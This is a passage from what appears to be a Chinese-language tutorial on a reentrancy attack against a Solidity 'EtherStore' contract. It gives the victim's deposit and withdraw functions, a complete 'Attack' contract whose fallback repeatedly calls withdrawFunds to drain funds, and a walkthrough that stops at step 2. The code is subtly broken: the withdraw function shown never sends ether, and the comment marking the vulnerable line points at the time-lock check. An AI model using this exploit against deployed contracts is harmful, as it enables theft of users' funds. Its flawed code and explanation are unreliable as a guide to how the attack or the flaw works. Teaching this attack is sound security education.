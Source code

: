         function depositFunds() public payable{
            balances[msg.sender] += msg.value;
        }
    
        function withdrawFunds(uint256 _weiToWithdraw) public {
            require(balances[msg.sender] >= _weiToWithdraw);
            //limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            //下面這一行有漏洞，請試著思考哪裡不合理
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
        }
    
    }

如果一個攻擊者創建了一個惡意合約如下

    import "EtherStore.sol";
    
    contract Attack{
        EtherStore public etherStore;
    
        constructor( address _etherStoreAddress) {
            etherStore = EtherStore(_etherStoreAddress);
        }
    
        function attackEtherStore() public payable{
        
            //attack to the nearest ether
            require(msg.value >= 1 ether);
            
            //send eth to the depositFunds() function
            etherStore.depositFunds.value(1 ether)();
    
            //遊戲開始！
            etherStore.withdrawFunds(1 ether);
        
        }
    
        function collectEther() public{
            msg.sender.transfer(this.balance);
        }
    
        //fallback function - 魔術發生的地方
        function() payable{
            if(etherStore.balance > 1 ether){
                etherStore.withdrawFunds(1 ether);
            }
        
        }
    
    }

讓我們一步一步來看：

1. 攻擊者首先部署EtherStore合約。然後，攻擊者部署Attack合約，並在構造函數中指定EtherStore合約的地址。這樣，Attack合約就可以與EtherStore合約進行交互。


2. 攻擊者通過調用Attack合約的attackEtherStore()函數來啟動攻擊。這個函數首先要求攻擊者發送至少1個以太幣到Attack合約。attackEtherStore()函數接著調用EtherStore合約的depositFunds()方法，將這1個以太幣存入EtherStore合約。緊接著，attackEtherStore()函數調用EtherStore的withdrawFunds()方法，嘗試從EtherStore合約提取1個以太幣。
